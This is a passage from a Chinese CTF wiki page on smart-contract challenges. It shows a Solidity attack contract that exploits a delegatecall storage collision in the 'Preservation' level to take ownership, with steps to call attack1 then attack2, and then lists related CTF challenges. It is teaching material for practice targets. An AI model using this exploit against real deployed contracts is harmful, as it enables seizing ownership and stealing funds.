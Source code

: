 ```solidity
contract attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    
    address instance_address = 0x7cec052e622c0fb68ca3b2e3c899b8bf8b78663c;
    Preservation target = Preservation(instance_address);
    function attack1() {
        target.setFirstTime(uint(address(this)));
    }
    function attack2() {
        target.setFirstTime(uint(0x88d3052d12527f1fbe3a6e1444ea72c4ddb396c2));
    }
    function setTime(uint _time) public {
        timeZone1Library = address(_time);
        timeZone2Library = address(_time);
        owner = address(_time);
    }
}
```

先调用 `attack1()` ，再调用 `attack2()` 即可

### Result

![](./figure/result.png)

## 题目

### RealWorld 2018
- 题目名称 Acoraida Monica

### Balsn 2019
- 题目名称 Creativity

### 第五空间 2020
- 题目名称 SafeDelegatecall

### 华为鲲鹏计算 2020
- 题目名称 boxgame

!!! note
    注：题目附件相关内容可至 [ctf-challenges/blockchain](https://github.com/ctf-wiki/ctf-challenges/tree/master/blockchain) 仓库寻找。

